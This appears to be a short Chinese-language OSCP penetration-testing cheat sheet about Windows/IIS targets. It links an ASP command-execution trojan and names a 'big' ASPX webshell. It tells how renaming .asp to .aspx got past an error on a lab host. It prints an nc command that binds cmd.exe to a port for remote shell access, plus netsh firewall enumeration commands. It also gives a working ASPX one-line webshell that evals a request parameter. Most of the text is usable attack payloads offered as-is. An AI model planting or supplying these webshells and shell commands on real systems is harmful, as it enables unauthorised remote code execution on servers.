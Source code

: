- 一个 ASP 的木马，用于执行系统命令：[aspcmd.asp](https://github.com/Jewel591/OSCP/blob/master/ASP-reverse-shell/aspcmd.asp)(或asp.cmd.aspx)

> 遇到的一个坑：`.asp` 无法运行，系统会报 500 错误，修改为`.aspx` 后绕过限制(~OSCP 10.11.1.13)

- 超强 webshell 大马-bigshell.aspx

# Windows 利用 nc 反弹 shell
```
nc -lvp 8888 -e c:\windows\system32\cmd.exe 
```
查看防火墙状态：
```
netsh firewall show state
```
```
netsh advfirewall firewall show rule name=all dir=in type=dynamic
```
# ASPX 一句话木马
```
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
```
# Windows vs Linux Command
![](https://i.loli.net/2020/05/06/JS1sNIZLQTxURBD.png)

